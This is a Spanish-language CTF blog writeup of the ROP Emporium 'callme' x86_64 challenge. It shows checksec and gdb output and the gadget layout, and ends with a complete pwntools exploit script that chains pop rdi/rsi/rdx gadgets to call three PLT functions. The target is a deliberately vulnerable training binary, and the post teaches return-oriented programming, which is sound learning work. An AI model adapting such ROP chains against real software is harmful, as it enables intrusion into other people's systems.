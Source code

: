 ```yaml
---
layout: post
title: Callme ROP Emporium (x86_64)
comments: true
categories: [Pwn, Writeups, ROPEmporium]
---
```


Este es el segundo post de la serie de writeups de [ROP Emporium](https://ropemporium.com/challenge/split.html). Con esta serie de posts aprenderemos sobre una de las técnicas más utilizadas en la explotación de binarios, la [***ROP***]({% post_url 2024-08-15-ROP %}), ó *Return Orineted Programming* (Programación orientada a *return*).

Concretamente en este reto, utilizaremos *ROP gadgets* para llamar a varias funciones pasándoles argumentos.

# x86_64 (Intended)
## Reconocimiento

Como siempre comenzamos lanzando [[checksec]]:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```

Vemos que la ejecución es igual que el [ejercicio anterior]({% post_url 2024-08-15-Split-ROP-Emporium %}). Así que analizaremos directamente las funciones con gdb-pwndbg:

```
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
```

En el enunciado se nos dice:

> You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, each with the arguments `0xdeadbeef`,  `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag. **For the x86_64 binary** double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`.
> The solution here is simple enough, use your knowledge about what resides in the PLT to call the `callme_` functions in the above order and with the correct arguments. If you're taking on the MIPS version of this challenge, don't forget about the branch delay slot.
> _Don't get distracted by the incorrect calls to these functions made in the binary, they're there to ensure these functions get linked. You can also ignore the .dat files and encrypted flag in this challenge, they're there to ensure the functions must be called in the correct order._

En resumen, deberemos llamar a las funciones *callme_* en el orden correcto, pasando los argumentos correctos.

En *usefulGadgets* se nos dan los gadgets necesarios para colocar los argumentos:

```
disass usefulGadgets

Dump of assembler code for function usefulGadgets:
0x000000000040093c <+0>:	pop    rdi
0x000000000040093d <+1>:	pop    rsi
0x000000000040093e <+2>:	pop    rdx
0x000000000040093f <+3>:	ret
```

También tenemos las direcciones de las funciones a llamar que tienen la peculiaridad de, al ser *dynamically linked*, encontrarse en la PLT.

## Explotación

El script llamará por cada función, a los gadgets, seguidos de los parámetros (almacenados en *rdi*, *rsi* y *rdx*) y por último, a la propia función. Así quedaría:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
context.bits=64
exe = './callme'


def start():
    
    if args.REMOTE:
        return remote()
    else:
        return process(exe)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

padding=40*b'A' #Same as split (previous challenge)

callme_1=p64(0x0000000000400720)
callme_2=p64(0x0000000000400740)
callme_3=p64(0x00000000004006f0)

pop_3_ret=p64(0x000000000040093c)

deadbeef=p64(0xdeadbeefdeadbeef)
cafebabe=p64(0xcafebabecafebabe)
doodfood=p64(0xd00df00dd00df00d)

args = deadbeef + cafebabe + doodfood

payload = padding + pop_3_ret + args + callme_1
payload += pop_3_ret + args + callme_2
payload += pop_3_ret + args + callme_3

io.sendline(payload)
io.interactive()
```

Un reto también sencillo pero que refresca y afianza conceptos para los siguientes. ¡Nos vemos en el próximo post!
